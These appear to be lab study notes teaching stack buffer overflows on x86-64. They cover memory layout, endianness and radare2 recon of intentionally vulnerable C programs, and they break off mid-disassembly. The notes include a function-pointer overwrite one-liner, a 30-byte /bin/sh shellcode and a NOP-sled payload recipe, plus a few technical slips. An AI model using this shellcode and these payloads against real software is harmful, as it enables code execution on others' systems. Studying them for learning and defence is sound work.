

# Buffer Overflows

Basic Buffer Overflows

## TABLE OF CONTENTS
- [Buffer Overflows](#buffer-overflows)
  - [TABLE OF CONTENTS](#table-of-contents)
  - [Tools](#tools)
  - [Process Layout](#process-layout)
    - [Context Switching](#context-switching)
    - [Memory Address Space (Virtual Memory Layout)](#memory-address-space-virtual-memory-layout)
      - [Memory Growth Directions](#memory-growth-directions)
      - [Memory Section Details](#memory-section-details)
        - [User Stack](#user-stack)
        - [Shared Library Region](#shared-library-region)
        - [Run-Time Heap](#run-time-heap)
        - [Read/Write Data](#readwrite-data)
        - [Read-Only Code/Data](#read-only-codedata)
  - [x86-64 Procedures](#x86-64-procedures)
    - [STACK MEMORY LAYOUT](#stack-memory-layout)
    - [PUSH OPERATION](#push-operation)
    - [POP OPERATION](#pop-operation)
    - [MULTIPLE FUNCTION STACK FRAMES](#multiple-function-stack-frames)
    - [STACK FRAME LIFECYCLE](#stack-frame-lifecycle)
    - [Data Transfer](#data-transfer)
  - [ENDIANNESS](#endianness)
    - [ENDIANNESS COMPARISON](#endianness-comparison)
    - [BIG ENDIAN (Most Significant Byte First)](#big-endian-most-significant-byte-first)
    - [LITTLE ENDIAN (Least Significant Byte First)](#little-endian-least-significant-byte-first)
    - [BIT SIGNIFICANCE](#bit-significance)
      - [Most Significant Bit (MSB)](#most-significant-bit-msb)
      - [Least Significant Bit (LSB)](#least-significant-bit-lsb)
      - [POSITIONAL NOTATION](#positional-notation)
      - [EXAMPLE](#example)
      - [ENDIANNESS RELATIONSHIP](#endianness-relationship)
    - [MEMORY LAYOUT VISUALIZATION](#memory-layout-visualization)
  - [Overwriting Variables](#overwriting-variables)
    - [The Code](#the-code)
    - [ALIGNMENT VISUALIZATION](#alignment-visualization)
    - [MAIN FUNCTION STACK FRAME](#main-function-stack-frame)
    - [BUFFER OVERFLOW VULNERABILIY](#buffer-overflow-vulnerabiliy)
  - [Overwriting Function Pointers](#overwriting-function-pointers)
    - [Task 7 Code](#task-7-code)
    - [EXECUTION](#execution)
    - [FORCING SPECIAL() to EXECUTE](#forcing-special-to-execute)
    - [EXERCISE](#exercise)
      - [RECON](#recon)
      - [EXPLOIT](#exploit)
  - [BUFFER OVERFLOWS](#buffer-overflows-1)
    - [Task 8 Code](#task-8-code)
    - [The Stack Frame](#the-stack-frame)
    - [Shellcode](#shellcode)
    - [Find the Task 8 Segmentation Error](#find-the-task-8-segmentation-error)
      - [Examine the task 8 flow](#examine-the-task-8-flow)
      - [Call the Vulnerable Task 8 Function](#call-the-vulnerable-task-8-function)
      - [Generate A Test Pattern](#generate-a-test-pattern)
      - [Crash and Debug  the Task 8 program](#crash-and-debug--the-task-8-program)
      - [Exploit the Task 8 program](#exploit-the-task-8-program)
  - [Buffer Overflow 2](#buffer-overflow-2)
    - [Task 9 Code](#task-9-code)
    - [Find the Task 9 Segmentation Error](#find-the-task-9-segmentation-error)
    - [Examine the Task 9 Flow](#examine-the-task-9-flow)
    - [The Task 9 Stack Frame](#the-task-9-stack-frame)


## Tools

- radare2  
- ragg2

## Process Layout

### Context Switching  

- switching between processes
- current computer architecture allows multiple processes to be run concurrently  
- processes may appear to run at the same time  
- operating system keeps track of all the information in each process

### Memory Address Space (Virtual Memory Layout)  

```markdown
High Memory (0xFFFFFFFF) 

┌─────────────────────────────────────┐  
│             KERNEL SPACE            │ ← Reserved for OS  
│         (Not accessible to          │  
│           user programs)            │  
├─────────────────────────────────────┤  
│                                     │  
│            USER STACK               │ ← Function calls, local vars  
│               ▼ ▼ ▼                 │   (grows downward)  
│         (grows downward)            │  
│                                     │  
│                 ...                 │  
│                                     │  
│         ┌─────────────────┐         │  
│         │  Stack Frame N  │         │  
│         ├─────────────────┤         │  
│         │  Stack Frame 2  │         │  
│         ├─────────────────┤         │  
│         │  Stack Frame 1  │         │  
│         └─────────────────┘         │  
├─────────────────────────────────────┤  
│                                     │  
│        SHARED LIBRARY REGION        │ ← Dynamic libraries (.so/.dll)  
│                                     │   - libc, OpenGL, etc.  
│  ┌───────────────┐ ┌─────────────┐  │  
│  │   libc.so     │ │  libm.so    │  │  
│  │               │ │             │  │  
│  └───────────────┘ └─────────────┘  │  
│                                     │  
├─────────────────────────────────────┤  
│                                     │  
│           RUN-TIME HEAP             │ ← Dynamic allocation  
│               ▲ ▲ ▲                 │   (malloc, new, etc.)  
│         (grows upward)              │   (grows upward)  
│                                     │  
│    ┌──────────┐ ┌────────────────┐  │  
│    │ malloc() │ │   new object   │  │  
│    │  block   │ │                │  │  
│    └──────────┘ └────────────────┘  │  
│                                     │  
├─────────────────────────────────────┤  
│                                     │  
│         READ/WRITE DATA             │ ← Initialized global vars  
│                                     │   Uninitialized data (BSS)  
│  Global Variables:                  │  
│  ┌─────────────┐ ┌───────────────┐  │  
│  │ int x = 10; │ │ char buffer[] │  │  
│  │ float pi;   │ │ static vars   │  │  
│  └─────────────┘ └───────────────┘  │  
│                                     │  
├─────────────────────────────────────┤  
│                                     │  
│        READ-ONLY CODE/DATA          │ ← Program instructions  
│                                     │   String literals  
│  Program Code:                      │   Constants  
│  ┌─────────────────────────────────┐│  
│  │ main() {                        ││  
│  │   printf("Hello World");        ││  
│  │   return 0;                     ││  
│  │ }                               ││  
│  │                                 ││  
│  │ String literals: "Hello World"  ││  
│  │ Constants: const int MAX = 100  ││  
│  └─────────────────────────────────┘│  
│                                     │  
└─────────────────────────────────────┘  
Low Memory (0x00000000)  
```

#### Memory Growth Directions  

User Stack:     ▼ ▼ ▼  (High → Low addresses)  
Runtime Heap:   ▲ ▲ ▲  (Low → High addresses)  

#### Memory Section Details  

##### User Stack  

- information required to run a program and functions
- current program counter, saved registers
- Contains function call frames
- Stores local variables and parameters
- Manages return addresses
- Fast allocation/deallocation
- Limited in size (typically 1-8 MB)  

##### Shared Library Region  

- used to either statically or dynamically linked libraries  
- Houses dynamically linked libraries
- Shared between multiple processes
- Includes system libraries (libc, libm, etc.)
- Loaded at program startup or on-demand  

##### Run-Time Heap  

- increases and decreases dynamically  
- Used for dynamic memory allocation
- Managed by malloc(), free(), new, delete
- Flexible size but slower than stack
- Risk of memory leaks if not properly managed  

##### Read/Write Data  

- program executable and initialised variables.  
- Initialized data segment : Global variables with initial values
- BSS segment : Uninitialized global variables
- Static variables with function scope  

##### Read-Only Code/Data  

- Text segment : Compiled program instructions
- String literals and constants
- Shared between multiple instances of same program
- Protected from modification  

## x86-64 Procedures

### STACK MEMORY LAYOUT  

```markdown
┌─────────────────────────────────────────────────────────────────┐
│                    STACK MEMORY REGION                          │
│            (Contiguous Memory Addresses)                        │
└─────────────────────────────────────────────────────────────────┘  


User Stack Bottom (High Memory Address)
┌─────────────────────────────────────┐
│                                     │
│           UNUSED STACK              │
│              SPACE                  │
│                                     │
│               ▼ ▼ ▼                 │ ← STACK GROWS DOWN
│         (toward lower addresses)    │
│                                     │
├─────────────────────────────────────┤ ← rsp (Stack Pointer)
│          TOP OF STACK               │   Points to TOP
│                                     │
└─────────────────────────────────────┘
Stack Top (Low Memory Address 0x0)
```

### PUSH OPERATION  

```markdown
BEFORE: push var (var = 42)
┌─────────────────┐
│   Unused Space  │
├─────────────────┤ ← rsp = 0x1020
│                 │
│                 │
│                 │
└─────────────────┘

STEP 1: Get value from 'var' memory location (value = 42)
STEP 2: Decrement rsp by 8 (rsp = 0x1020 - 8 = 0x1018)
STEP 3: Write value to new rsp location

AFTER: push var
┌─────────────────┐
│   Unused Space  │
├─────────────────┤
│                 │
├─────────────────┤ ← rsp = 0x1018 (DECREMENTED by 8)
│       42        │ ← NEW TOP OF STACK
│   (from var)    │
└─────────────────┘
```

### POP OPERATION  

```markdown
BEFORE: pop var (stack has value 42 on top)
┌─────────────────┐
│   Unused Space  │
├─────────────────┤
│                 │
├─────────────────┤ ← rsp = 0x1018
│       42        │ ← CURRENT TOP OF STACK
│                 │
└─────────────────┘

STEP 1: Read value at address given by rsp (reads 42)
STEP 2: Store value into var (var = 42)
STEP 3: Increment rsp by 8 (rsp = 0x1018 + 8 = 0x1020)

AFTER: pop var
┌─────────────────┐
│   Unused Space  │
├─────────────────┤ ← rsp = 0x1020 (INCREMENTED by 8)
│                 │ ← NEW TOP OF STACK
├─────────────────┤
│       42        │ ← DATA STILL HERE! (memory unchanged)
│                 │   Only rsp moved!
└─────────────────┘

*** IMPORTANT: Memory content doesn't change during POP! ***
*** Only the stack pointer (rsp) value changes! ***
```

### MULTIPLE FUNCTION STACK FRAMES

```markdown
Program: main() → function_a() → function_b()

Stack Bottom (High Memory)
┌───────────────────────────────────────┐
│           UNUSED SPACE                │
├───────────────────────────────────────┤
│                                       │
│        FUNCTION_B STACK FRAME         │ ← Currently executing
│  ┌─────────────────────────────────┐  │
│  │ Local Variables:                │  │
│  │   int local_b = 30              │  │
│  │ Function Arguments:             │  │
│  │   int param_b                   │  │
│  │ Return Address:                 │  │
│  │   → back to function_a()        │  │
│  │ Saved Registers                 │  │
│  └─────────────────────────────────┘  │ ← rsp points here
├───────────────────────────────────────┤
│        FUNCTION_A STACK FRAME         │
│  ┌─────────────────────────────────┐  │
│  │ Local Variables:                │  │
│  │   int local_a = 20              │  │
│  │   char buffer[100]              │  │
│  │ Function Arguments:             │  │
│  │   (none)                        │  │
│  │ Return Address:                 │  │
│  │   → back to main()              │  │
│  │ Saved Registers                 │  │
│  └─────────────────────────────────┘  │
├───────────────────────────────────────┤
│          MAIN STACK FRAME             │
│  ┌─────────────────────────────────┐  │
│  │ Local Variables:                │  │
│  │   int main_var = 10             │  │
│  │   int argc                      │  │
│  │ Function Arguments:             │  │
│  │   char** argv                   │  │
│  │ Return Address:                 │  │
│  │   → back to OS                  │  │
│  └─────────────────────────────────┘  │
└───────────────────────────────────────┘
Stack Top (Low Memory - toward 0x0)
```

### STACK FRAME LIFECYCLE

```markdown

FUNCTION CALL (Allocating New Frame):
┌─────────────────────────────────────┐
│ 1. PUSH arguments onto stack        │
│ 2. PUSH return address              │
│ 3. PUSH saved registers             │
│ 4. Allocate space for local vars    │
│    (rsp moves down)                 │
└─────────────────────────────────────┘
                  │
                  ▼
            NEW STACK FRAME
                  │
                  ▼
┌─────────────────────────────────────┐
│ Function executes...                │
│ - Uses local variables              │
│ - May call other functions          │
│ - May push/pop temporary values     │
└─────────────────────────────────────┘
                  │
                  ▼
FUNCTION RETURN (Deallocating Frame):
┌─────────────────────────────────────┐
│ 1. Clean up local variables         │
│    (rsp moves up)                   │
│ 2. POP saved registers              │
│ 3. POP return address               │
│ 4. Jump to return address           │
└─────────────────────────────────────┘
```

### Data Transfer  

Upto 6 arguments for functions can be stored in the following registers:  

- rdi: 64-bit general purpose register; primarily serves as the first argument register  
- rsi: 64-bit general purpose register; primarily serves as the second argument register  
- rdx: 64-bit general purpose register; third argument register, also a data register for controlling size parameters, modes, and enviornment variables
- rcx: 64-bit general purpose register; fourth argueargumentment register; loop counter register
- r8: 64-bit general purpose extended register; fifth argument register
- r9: 64-bit general purpose extended register; sixth argument register; last register for passing parameters/arguements  

Note: The use of seven or more arguements results in storing of those values on the functions stack frame
Arguments 7+: Stored on stack (slower access)  
[RSP + 0x08] → arg7  
[RSP + 0x10] → arg8  
[RSP + 0x18] → arg9  

Implications of 7+ arguements:  

- Complexity Increase : Stack frames become larger and more complex
- Performance Impact : Memory access overhead for stack arguments
- Exploitation Opportunity : Direct stack argument control via overflow
- Defense Challenges : Larger attack surface and complex memory layouts
- Payload Simplification : No gadgets needed for arguments 7+ (direct stack control)

Destination Indexes:  

- rax: 64-bit accumulator register; systcall register; stores results of arithmetic operations  (eax is the 32-bit version)

Caller's responsibility to preserve before function calls

- RAX, RCX, RDX, RSI, RDI, R8, R9, R10, R11

Callee's responsibility to preserve during function execution

- RBX, RBP, R12, R13, R14, R15, RSP

## ENDIANNESS

### ENDIANNESS COMPARISON


```markdown
Memory Address:    0x1000  0x1001  0x1002  0x1003
                      |       |       |       |
                      v       v       v       v
```

### BIG ENDIAN (Most Significant Byte First)


32-bit value: 0x12345678  

```markdown
    ┌─────┬─────┬─────┬─────┐
    │ 12  │ 34  │ 56  │ 78  │
    └─────┴─────┴─────┴─────┘
     MSB                 LSB
   (Most              (Least
 Significant)       Significant)
```  

Human readable order: "Reads naturally left to right"


### LITTLE ENDIAN (Least Significant Byte First)


32-bit value: 0x12345678

```markdown
    ┌─────┬─────┬─────┬─────┐
    │ 78  │ 56  │ 34  │ 12  │
    └─────┴─────┴─────┴─────┘
     LSB                 MSB
   (Least             (Most
 Significant)       Significant)
```  

Human readable order: "Bytes stored in reverse order"

### BIT SIGNIFICANCE  

#### Most Significant Bit (MSB)

The bit position in a binary number haivng the greatest value or carries the most weight in determining the number's magnitude  
The leftmost bit and represents the highest power of 2 in the number's positional notation system.

#### Least Significant Bit (LSB)

The bit position with the smallest value or weight in a binary number  
The rightmost position, the LSB represents 2^0 = 1 and determines whether a number is odd or even.

#### POSITIONAL NOTATION  

```markdown
Binary number: b₇ b₆ b₅ b₄ b₃ b₂ b₁ b₀
Decimal value: b₇×2⁷ + b₆×2⁶ + b₅×2⁵ + b₄×2⁴ + b₃×2³ + b₂×2² + b₁×2¹ + b₀×2⁰
               ↑                                                           ↑
              MSB                                                         LSB
              (128)                                                        (1)
```  

#### EXAMPLE

For the 8-bit binary number ```01010110```:

MSB (bit 6): 1 → contributes 64 to the decimal value  
LSB (bit 0): 0 → contributes 0 to the decimal value  
Total decimal value: 64 + 16 + 4 + 2 = 86  

#### ENDIANNESS RELATIONSHIP

**Big-Endian Systems**  

MSB stored at lowest memory address  
Natural human reading order preserved  
Network protocols commonly use big-endian  

**Little-Endian Systems**  

LSB stored at lowest memory address
x86/x64 architectures employ little-endian
Facilitates efficient arithmetic operations  


### MEMORY LAYOUT VISUALIZATION

```markdown  
Address:  │ Big Endian │ Little Endian │
─────────────────────────────────────────
0x1000    │     12     │      78       │
0x1001    │     34     │      56       │
0x1002    │     56     │      34       │
0x1003    │     78     │      12       │
```  

KEY POINTS:

- x86/x64 architectures use Little Endian
- Network protocols typically use Big Endian
- Important for buffer overflow exploitation
- Affects how addresses are stored in memory


This concept is crucial for buffer overflow training because:

1. **Return addresses** are stored according to the system's endianness
2. **Shellcode addresses** must be written in the correct byte order
3. **Payload construction** requires understanding how multi-byte values are arranged in memory

## Overwriting Variables  

### The Code  

```c

// integer and character buffer are initialized next to each other
// not always the case, but memory is allocated in continuous bytes
int main(int argc, char **argv)
{
  volatile int variable = 0;
  char buffer[14];

  gets(buffer);

  if(variable != 0) {
      printf("You have changed the value of the variable\n");
  } else {
      printf("Try again?\n");
  }
}
```  

allocated variables are aligned to a particualr size boundaries easing memory allocation and deallocation

### ALIGNMENT VISUALIZATION

In the event a 12-byte array is allocated in a stack asigned for 16-bytes, the memory appears as:

```markdown
Byte Position:  0  1  2  3  4  5  6  7  8  9  10 11 12 13 14 15
               ┌──┬──┬──┬──┬──┬──┬──┬──┬──┬──┬──┬──┬──┬──┬──┬──┐
Array Data:    │ 0│ 1│ 2│ 3│ 4│ 5│ 6│ 7│ 8│ 9│10│11│XX│XX│XX│XX│
               └──┴──┴──┴──┴──┴──┴──┴──┴──┴──┴──┴──┴──┴──┴──┴──┘
               ←─────── Used (12 bytes) ───────→← Padding (4) →
```

The compiler automatically adds the last 4-bytes ensuring the size of the vairalbe aligns with the stack size.  

### MAIN FUNCTION STACK FRAME  

```markdown
            ┌─────────────────────────────────┐ ← MAIN'S STACK FRAME BEGINS
0x7fff7fe0  │          char **argv            │ ← Function parameter 2
            │        (8 bytes - RSI)          │   (pointer to argument array)
            ├─────────────────────────────────┤
0x7fff7fd8  │           int argc              │ ← Function parameter 1  
            │        (4 bytes - RDI)          │   (argument count)
            │         [4 byte pad]            │   (alignment padding)
            ├─────────────────────────────────┤ ← 16-byte boundary
0x7fff7fd0  │         RETURN ADDRESS          │ ← Where main() returns to
            │           (8 bytes)             │   (saved RIP register)
            ├─────────────────────────────────┤
0x7fff7fc8  │        SAVED RBP (old)          │ ← SAVED REGISTERS
            │           (8 bytes)             │   (caller's base pointer)
            ├─────────────────────────────────┤ ← 16-byte boundary  
0x7fff7fc0  │                                 │
            │      SAVED REGISTERS            │ ← Additional callee-saved
            │    (RBX, R12-R15 if used)       │   registers (if any)
            │                                 │
            ├─────────────────────────────────┤ ← 16-byte boundary
0x7fff7fb0  │     volatile int variable       │ ← VOLATILE INT VARIABLE
            │          = 0                    │   (4 bytes)
            │         [4 byte pad]            │   (alignment padding)
            │         [8 byte pad]            │   (16-byte alignment)
            ├─────────────────────────────────┤ ← 16-byte boundary
0x7fff7fa0  │  buffer[13] (TOP OF BUFFER)     │ ← CHAR BUFFER TOP
            │  buffer[12]                     │   (highest index)
            │  buffer[11]                     │
            │  buffer[10]                     │
            ├─────────────────────────────────┤
0x7fff7f98  │  buffer[9]                      │
            │  buffer[8]                      │   
            │  buffer[7]                      │   CHAR BUFFER[14]
            │  buffer[6]                      │   (14 bytes allocated)
            ├─────────────────────────────────┤
0x7fff7f90  │  buffer[5]                      │
            │  buffer[4]                      │
            │  buffer[3]                      │
            │  buffer[2]                      │
            ├─────────────────────────────────┤ ← 16-byte boundary
0x7fff7f88  │  buffer[1]                      │
            │  buffer[0] (BOTTOM OF BUFFER)   │ ← CHAR BUFFER BOTTOM
            │         [2 byte pad]            │   (lowest index + padding)
            │         [4 byte pad]            │   (16-byte alignment)
            │         [8 byte pad]            │
            └─────────────────────────────────┘ ← 16-byte boundary

Lower Memory Addresses
```

The stack grows from high memory address to lower memory address  
when data is copied/written into the buffer, it is written from lower memory addresses to higher memory addresses  

### BUFFER OVERFLOW VULNERABILIY  

`gets` takes data afrom the standard input but has no bounds checking to ensure that data is no longer than 14 bytes

Input length > 14 chars → Overwrites padding → Overwrites variable  
Input length > 16 chars → Overwrites variable (changes from 0)  
Input length > 32 chars → Overwrites saved registers  
Input length > 40 chars → Overwrites return address (RIP control)  

## Overwriting Function Pointers

### Task 7 Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

void special()
{
    printf("this is the special function\n");
    printf("you did this, friend!\n");
}

void normal()
{
    printf("this is the normal function\n");
}

void other()
{
    printf("why is this here?");
}

int main(int argc, char **argv)
{
    volatile int (*new_ptr) () = normal;
    char buffer[14];
    gets(buffer);
    new_ptr();
}
```

### EXECUTION

The `gets()` function, again, reads user inptu into a 14-byte buffer which has no bounds checking.  
The exploitation is more complex in this case.
The attacker's target: `volatile int (*new_ptr)() = normal`
The objective: Change function pointer from normal to special
Requires the attacker to disocver the exact 8-byte address of the `special` function  

**Execution Flow**  

`gets()` overflows buffer
Function pointer `new_ptr` gets overwritten with address of `special()`
`new_ptr()` call executes `special()` instead of `normal()`
Output: "this is the special function" an

### FORCING SPECIAL() to EXECUTE  

**Note**  
The buffer variable is of size 14, indicating the solution is will require inputs beginning at the 15th position

### EXERCISE  

#### RECON

Use a component of Radare2 to gather metadata about the compiled application, without executing the application.  
`:> rabin2 -I func-pointer`  

**OUTPUT**  

```c 
arch     x86 
baddr    0x400000 // default memory load address
binsz    6510 // size of the file in bytes
bintype  elf
bits     64 // helps with identification and use of memory pointers
canary   false  // no built-in protection to detect stack buffer overflows
class    ELF64
compiler GCC: (GNU) 7.3.1 20180303 (Red Hat 7.3.1-5) // vulnerabilities or flaws in the compiler lead to vulnerablities or flaws in the binary
crypto   false // sensitive data, password verification, communication all happen in plain text
endian   little
havecode true // indicates the binary can be disassembled to analys control flow, identify functions, and conduct vulnerability research
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0 // indicates the load address is determined at runtime, no default address
lang     c
linenum  true // binary contains debug line number information mapping machine code to source code; exposes: source file paths and names, function names and locations; variable names and scopes; code structure and logic flow, and other items
lsyms    true // binary contains debugging metadata; exposes variable names and functionalities, algorithm implementation detials, security-sensitive variable names, etc...
machine  AMD x86-64 architecture
maxopsz  16 // maximum instruction size supported by the architecture
minopsz  1 // minimum instruction size supported by the architecture
nx       false // missing protections; code stored in the stack, heap, or data areas will be executed as code and not treated only as data.
os       linux
pcalign  0
pic      false  // Position Independent Code; code execute correctly regardless of wheere it's loaded in memory
relocs   true
relro    partial
rpath    NONE
sanitiz  false  //whether or not the binary was compiled with runtime security sanitizers: AddressSanitizer, MemorySantizer; UndefeinedBehaviorSanitizer
static   false  //whether dependencies are embedded, [statically linked, true] or shared [dynamically linked, false]; shared dependencies increase attack surface
stripped false // whether or not debugging symbols and metadata have been removed fro mthe binary; impacts reverse engineering complexity
subsys   linux
va       true
```  

`:> r2 func-pointer`  
At the entry point

  

**Display imports**  

`:>ii`


**Display Entrypoints**  

`:>ie`  

  

**Display Strings in the Data Section**  

`:>iz`


**Show the flag namespaces**  

`:>fs`  


**Enumerate Flagspaces**  

recon the flagspaces until there is something intersting
`:> fs <flagspace name>`

Use a compound command to enumerate the flags in a specific namespace

`fs symbols;f`  

  

The symbols flagspace provides the memory location of the sym.special function which is the target.  

`0x00400567 27 sym.special`  

#### EXPLOIT

Exit radare2 and attempt to run the program  
Based on the size of the char buffer, we know we need fifteen characters before exploiting the memory address.
The memory address must be in Little Endian  
git a
`:> ./func-pointer AAAAAAAAAAAAAA`

This commmand will result in a segmentation fault.  
Segmentation faults result when a program attempts to access memory it is not authorized to access, or possibly access memory in a way not allowed by the OS memory management unit.  

  

We know the number of junk input bytes required to overflow the char buffer.  
We know the address of the special function.  
We know the need to place the address into Little Endian

Simplify the exploit using python to generate the bulk of the input.  

`python -c 'print "A" * 14 + "\x67\x05\x40"' | ./func-pointer`

 

## BUFFER OVERFLOWS

### Task 8 Code

```c
#include <stdio.h>
#include <stdlib.h>

void copy_arg(char *string)
{
    char buffer[140];
    strcpy(buffer, string);
    printf("%s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    printf("Here's a program that echo's out your input\n");
    copy_arg(argv[1]);
}
```

In this example, `strcpy` function (within the `copy_arg` function) copies input from a string `argv[1]`,  which is a command line argument, to a buffer of length 140 bytes.  
`strcpy` does not check the length of the data being input making it possible to overflow the buffer.
Something more malicious is possible.  

### The Stack Frame  

```md
STACK MEMORY LAYOUT (x86-64, System V ABI, 16-byte aligned)
============================================================

Memory Address    Content                     Description
--------------    -------                     -----------

Higher Memory
     ↑
     │ Stack grows downward
     ↓

0x7fff8000    ┌─────────────────────────────┐ ← STACK BOTTOM
              │    ENVIRONMENT VARIABLES    │   (Process startup data)
              │         ARGV ARRAY          │
              │                             │
              └─────────────────────────────┘

              ┌─────────────────────────────┐ ← MAIN'S STACK FRAME
0x7fff7ff0    │        char **argv          │   (RSI register parameter)
              │         (8 bytes)           │   (pointer to argument array)
              ├─────────────────────────────┤
0x7fff7fe8    │         int argc            │   (RDI register parameter)
              │         (4 bytes)           │   (argument count)
              │       [4 byte pad]          │   (alignment padding)
              ├─────────────────────────────┤ ← 16-byte boundary
0x7fff7fe0    │     RETURN ADDRESS          │ ← Where main() returns to
              │        (8 bytes)            │   
              ├─────────────────────────────┤
0x7fff7fd8    │     SAVED RBP (main)        │ ← Saved base pointer
              │        (8 bytes)            │   (caller's frame pointer)
              ├─────────────────────────────┤ ← 16-byte boundary
0x7fff7fd0    │                             │
              │     CALL SETUP SPACE        │ ← Space for function call
              │      (16 bytes)             │   (ABI requirements)
              └─────────────────────────────┘

              ┌─────────────────────────────┐ ← COPY_ARG'S STACK FRAME
0x7fff7fc0    │     char *string (RDI)      │ ← Function parameter (argv[1])
              │        (8 bytes)            │   (passed in RDI register)
              ├─────────────────────────────┤
0x7fff7fb8    │    RETURN ADDRESS           │ ← Where copy_arg() returns
              │        (8 bytes)            │   (back to main + offset)
              ├─────────────────────────────┤ ← 16-byte boundary
0x7fff7fb0    │    SAVED RBP (copy_arg)     │ ← Saved base pointer
              │        (8 bytes)            │   (main's frame pointer)
              ├─────────────────────────────┤
0x7fff7fa8    │                             │
              │                             │
              │                             │
              │     buffer[132-139]         │ ← buffer[132] through buffer[139]
              │      (8 bytes)              │   (end of 140-byte buffer)
              ├─────────────────────────────┤
0x7fff7fa0    │     buffer[124-131]         │
              │      (8 bytes)              │
              ├─────────────────────────────┤
0x7fff7f98    │     buffer[116-123]         │
              │      (8 bytes)              │
              ├─────────────────────────────┤
0x7fff7f90    │     buffer[108-115]         │
              │      (8 bytes)              │
              ├─────────────────────────────┤
              │         ...                 │ ← CHAR BUFFER[140]
              │    (buffer continues)       │   (140 bytes total allocation)
              │         ...                 │   (rounded up for alignment)
              ├─────────────────────────────┤
0x7fff7f30    │     buffer[24-31]           │
              │      (8 bytes)              │
              ├─────────────────────────────┤
0x7fff7f28    │     buffer[16-23]           │
              │      (8 bytes)              │
              ├─────────────────────────────┤
0x7fff7f20    │     buffer[8-15]            │
              │      (8 bytes)              │
              ├─────────────────────────────┤ ← 16-byte boundary
0x7fff7f18    │     buffer[0-7]             │ ← buffer[0] through buffer[7]
              │      (8 bytes)              │   (start of buffer - lowest addr)
              └─────────────────────────────┘

Lower Memory Addresses


STACK FRAME STRUCTURE (x86-64):
===============================

copy_arg() Stack Frame Layout:
┌─────────────────────────────────┐ ← Higher addresses
│        string parameter         │ ← RDI (not on stack in x86-64)
├─────────────────────────────────┤
│       Return Address            │ ← RIP (8 bytes)
├─────────────────────────────────┤
│       Saved RBP                 │ ← RBP (8 bytes)  
├─────────────────────────────────┤ ← Current RBP points here
│                                 │
│       buffer[140]               │ ← 140 bytes (+ alignment padding)
│                                 │
└─────────────────────────────────┘ ← Lower addresses
```

Earlier, we saw that when a function, in this case main, calls another function, in this case copy_args, it needs to add the return address on the stack so the callee function(copy_args) knows where to transfer control to once it has finished executing. From the stack above, we know that data will be copied upwards from buffer[0] to buffer[140]. Since we can overflow the buffer, it also follows that we can overflow the return address with our own value. We can control where the function returns and change the flow of execution of a program(very cool, right?)  

### Shellcode  

Know that we know we can control the flow of execution by directing the return address to some memory address, how do we actually do something useful with this. This is where shellcode comes in; shell code quite literally is code that will open up a shell. More specifically, it is binary instructions that can be executed. Since shellcode is just machine code(in the form of binary instructions), you can usually start of by writing a C program to do what you want, compile it into assembly and extract the hex characters(alternatively it would involve writing your own assembly). 

An example 30-byteshellcode that opens up a basic shell:
`\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05`

The basic idea is that we need to point the overwritten return address to the shellcode, but where do we actually store the shellcode and what actual address do we point it at?  
Why don’t we store the shellcode in the buffer - because we know the address at the beginning of the buffer, we can just overwrite the return address to point to the start of the buffer. 
Here’s the general process so far:

- Find the start address of the buffer and the start address of the return address
- Calculate the difference between these addresses so you know how much data to enter to overflow
- Start out by entering the shellcode in the buffer, entering random data between the shellcode and the return address, and the address of the buffer in the return address

Memory addresses may not be the same on different systems, even across the same computer when the program is recompiled. 
Make this more flexible by using a NOP instruction. A NOP instruction is a `no operation instruction` - when the system processes this instruction, it does nothing, and carries on execution. A NOP instruction is represented using \x90. Putting NOPs as part of the payload means an attacker can jump anywhere in the memory region that includes a NOP and eventually reach the intended instructions. The vector looks like:

```markdown
┌──────────────────┐────────────────────┐────────────────────────┐
│     NOP Sled     │     Shell Code     |     Memory Address     |   
└──────────────────┘────────────────────┘────────────────────────┘
```

You’ve probably noticed that shellcode, memory addresses and NOP sleds are usually in hex code. To make it easy to pass the payload to an input program, you can use python:

`python -c “print (NOP * no_of_nops + shellcode + random_data * no_of_random_data + memory address)”`

### Find the Task 8 Segmentation Error

We will start at byte 141. This will allow us to see if a compiler has altered the stack layout

`:> ./buffer-overflow $(python -c "print('\x41'*144)")` causes the segementation error.  


It is likely we are overwriting the Saved Base Pointer (RBP). Disassembly is required to determine what is contained at bytes 141,142, and 143.  

#### Examine the task 8 flow

Start radare2 in  debug mode: `:> r2 -d ./buffer-overflow`  
radare starts at the entry point instead of main().  

Use `:> s main` to find main(), then `pdf` to 'print disassembly of function' main()

```md
[0x7ffff7dd9ef0]> s main
[0x00400564]> pdf
 51: int main (int argc, char **argv, char **envp);
           ; var int64_t var_10h @ rbp-0x10
           ; var int64_t var_4h @ rbp-0x4
           ; arg int argc @ rdi
           ; arg char **argv @ rsi
           ; DATA XREF from entry0 @ 0x40046d
           0x00400564      55             push rbp ; <- takes the current value in the rbp register and pushes it onto the stack
           0x00400565      4889e5         mov rbp, rsp ; <- Copy the memory address of rsp into and place it into rbp. rsp and rbp temporarily point to the same memory location.
           0x00400568      4883ec10       sub rsp, 0x10 ; <- subtract 160 from rsp. Note: there are now 160 bytes between rsp and rbp
           0x0040056c      897dfc         mov dword [var_4h], edi     ; argc <- count of command line arguments; value is moved from edit to var_4h
           0x0040056f      488975f0       mov qword [var_10h], rsi    ; argv <- moves the memory address of argv array from rsi to var_10h
           0x00400573      bf30064000     mov edi, str.Here_s_a_program_that_echo_s_out_your_input ; 0x400630 ; "Here's a program that echo's out your input"
           0x00400578      e8c3feffff     call sym.imp.puts           ; int puts(const char *s) <- puts prints the string to stdout
           0x0040057d      488b45f0       mov rax, qword [var_10h] ; <- go to memory location rbp-0x10, get the value stored there and place that value into rax. The value at this location is the memory address of argv
           0x00400581      4883c008       add rax, 8 ; <- add 8 to value (memory address) at rax, effectivly now pointing to argv[1]. In this program, the user's input
           0x00400585      488b00         mov rax, qword [rax] ; <- Before 0x00400585: rax points to argv[1] (contains address of argv[1]), After 0x00400585: rax contains the value stored at argv[1] , which is a pointer to the actual string
           0x00400588      4889c7         mov rdi, rax ; <- moves the pointer to the string (argv[1]) to rdi" this passess the address of the string to the function, not copying the entire string contents. RDI is the 64-bit register that holds the first argument to a function. The next step is the call to a function that will expect a value in RDI. 
           0x0040058b      e897ffffff     call sym.copy_arg ; <- call the vulnerable function
           0x00400590      b800000000     mov eax, 0
